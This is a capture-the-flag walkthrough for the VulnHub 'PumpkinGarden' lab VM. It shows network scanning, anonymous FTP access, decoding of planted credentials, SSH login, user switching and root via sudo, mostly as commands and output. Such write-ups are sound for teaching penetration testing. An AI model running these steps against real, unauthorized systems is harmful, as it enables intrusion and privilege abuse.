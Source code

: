 # PumpkinGarden

## 1.Enumeration

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:0f	(Unknown: locally administered)
192.168.56.116	08:00:27:20:a9:84	PCS Systemtechnik GmbH
192.168.56.100	08:00:27:a0:61:e0	PCS Systemtechnik GmbH
```
The ip address is `192.168.56.100`, let's scan it :

```bash
root@kali: nmap -sV -sC -v -p21,1515,3535 -oN nmap.out 192.168.56.116

Nmap scan report for 192.168.56.116
Host is up (0.00043s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              88 Jun 13  2019 note.txt
1515/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Mission-Pumpkin
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
3535/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d8:8d:e7:48:3a:3c:91:0e:3f:43:ea:a3:05:d8:89:e2 (DSA)
|   2048 f0:41:8f:e0:40:e3:c0:3a:1f:4d:4f:93:e6:63:24:9e (RSA)
|   256 fa:87:57:1b:a2:ba:92:76:0c:e7:85:e7:f5:3d:54:b1 (ECDSA)
|_  256 fa:e8:42:5a:88:91:b4:4b:eb:e4:c3:74:2e:23:a5:45 (ED25519)
MAC Address: 08:00:27:20:A9:84 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

on port `21` we have anonymous access :

```bash
root@kali: ftp 192.168.56.116

Connected to 192.168.56.116.
220 Welcome to Pumpkin's FTP service.
Name (192.168.56.116:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> dir
229 Entering Extended Passive Mode (|||17078|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0              88 Jun 13  2019 note.txt
226 Directory send OK.

ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||30226|).
150 Opening BINARY mode data connection for note.txt (88 bytes).
100% |********************************************************************************************************************|    88        6.15 KiB/s    00:00 ETA
226 Transfer complete.
```

inside of note.txt is :

```text
root@kali: cat note.txt 
Hello Dear! 
Looking for route map to PumpkinGarden? I think jack can help you find it.
```

i first thaught `jack` if one of the users but then i checked the web page on port `1515` and in the page source there was a comment :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f584a048-fe2c-4f18-aa02-a821505e5c2f)

then i checked the `/img` directory and found `hidden_secret`, inside there is a `clue.txt` which contains a base64 string :

```bash
root@kali: echo -n 'c2NhcmVjcm93IDogNVFuQCR5' | base64 -d
scarecrow : 5Qn@$y
```

## 2.Gaining Shell

Now connect to ssh using credentials found in clue.txt

```bash
root@kali: ssh -p 3535 scarecrow@192.168.56.116
------------------------------------------------------------------------------
			  Welcome to Mission-Pumpkin
      All remote connections to this machine are monitored and recorded
------------------------------------------------------------------------------
scarecrow@192.168.56.116's password: 
Last login: Thu Jun 13 00:35:51 2019 from 192.168.1.106
scarecrow@Pumpkin:~$ 
scarecrow@Pumpkin:~$ 
scarecrow@Pumpkin:~$ id
uid=1001(scarecrow) gid=1001(scarecrow) groups=1001(scarecrow)
```

there is a note.txt in home folder inside of it :

```bash
Oops!!! I just forgot; keys to the garden are with LordPumpkin(ROOT user)! 
Reach out to goblin and share this "Y0n$M4sy3D1t" to secretly get keys from LordPumpkin.
```

check out the /etc/passwd and see there is a user called `goblin`, change your user to this account using the credential found in note.txt

```bash
scarecrow@Pumpkin:~$ su goblin
Password: 
goblin@Pumpkin:/home/scarecrow$ id
uid=1002(goblin) gid=1002(goblin) groups=1002(goblin),27(sudo)
```

just check the `sudo -l` and it contains :

```text
atching Defaults entries for goblin on Pumpkin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goblin may run the following commands on Pumpkin:
    (root) ALL, !/bin/su
```

## 3.Privilege Escalation

Simply type this :

```bash
goblin@Pumpkin:/home/scarecrow$ sudo /bin/bash

root@Pumpkin:/root# cat PumpkinGarden_Key 
Q29uZ3JhdHVsYXRpb25zIQ==
```

```bash
root@kali: echo -n 'Q29uZ3JhdHVsYXRpb25zIQ==' | base64 -d
Congratulations! 
```

this is how you can get root on this machine :)











